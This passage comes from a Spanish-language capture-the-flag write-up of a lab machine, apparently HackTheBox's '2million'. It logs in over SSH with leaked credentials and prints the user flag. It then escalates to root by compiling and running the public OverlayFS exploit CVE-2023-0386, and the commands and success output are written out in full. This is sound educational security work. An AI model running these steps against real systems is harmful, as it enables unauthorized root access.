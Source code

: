 El archivo nos da credenciales para la base de datos y probablemente para el usuario `admin`. Verificamos el usuario en `/etc/passwd`:

```
admin:x:1000:1000::/home/admin:/bin/bash
```

Intentamos conexión SSH usando esas credenciales:

```bash
ssh admin@10.10.11.221
# password: SuperDuperPass123
```

Acceso concedido. Ya tenemos la flag de usuario:

```
cat user.txt
b57dfb3467db8c5447c289ba9b8a85e1
```

Nada mal, un acceso limpio y sin complicaciones.

---

## Escalada de privilegios

Explorando más encontramos un email interno que menciona la vulnerabilidad **OverlayFS CVE-2023-0386**, conocida por permitir escalada de privilegios:

```
That one in OverlayFS / FUSE looks nasty...
```

Confirmamos versión vulnerable del kernel:

```bash
uname -a
Linux 2million 5.15.70-051570-generic #20220923 ...
```

Descargamos y compilamos el exploit público:

```bash
zip -r cve.zip CVE-2023-0386/
scp cve.zip admin@2million.htb:/tmp
unzip cve.zip
cd CVE-2023-0386 && make all
./fuse ./ovlcap/lower ./gc &
./exp
```

Tras ejecutar, mensaje de éxito:

```
[+] exploit success!
```

Ahora somos root. Nos vamos directo a `/root/` y leemos la flag final:

```
cat /root/root.txt
```

---